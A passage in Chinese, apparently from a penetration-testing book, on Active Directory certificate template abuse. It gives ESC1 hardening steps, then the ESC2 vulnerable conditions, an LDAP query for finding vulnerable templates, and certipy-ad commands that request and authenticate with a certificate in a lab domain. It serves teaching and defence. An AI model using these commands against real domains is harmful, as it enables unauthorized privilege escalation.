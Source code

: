 为防止特权提升，需要对模板进行加固。最佳做法是禁用**Supply in Request**设置，并强制执行 CA 证书经理的批准。接下来，可以收紧用户注册权限，并审查证书中的 EKU。最后，在域控制器上，可以在**HKLM\SYSTEM\CurrentControlSet\Services\Kdc**注册表项中强制执行严格的用户映射，并将 DWORD **UseSubjectAltName**值设置为**0**。

使用 Windows 事件日志无法直接可靠地检测 ESC1，因此更好的做法是考虑采取预防措施。

### ESC2 – 配置错误的证书模板

这种技术与 ESC1 类似，但有些微小的偏差。**Any Purpose** EKU 允许攻击者以用户身份本身请求认证证书，而不是代表其他用户。漏洞存在的条件如下：

+   标准用户有企业 CA 授予的注册权限

+   管理员批准已禁用（**mspki-enrollment-flag** 为 **0x00000000**）

+   无需授权签名（**msPKI-RA-Signature** 为 **0x00000000**）

+   证书模板定义了**Any Purpose** EKU 或没有 EKU

查找易受攻击模板的 LDAP 查询如下：

```
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=essos,DC=local'
```

查询结果如下：

![图 8.19 – 查找 ESC2 易受攻击模板的 LDAP 查询](img/B18964_08_19.jpg)

图 8.19 – 查找 ESC2 易受攻击模板的 LDAP 查询

以下命令将允许你为**khal.drogo**请求证书并用于身份验证：

```
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC2
certipy-ad auth -pfx khal.drogo.pfx -dc-ip 192.168.56.12
```

结果如下截图所示：
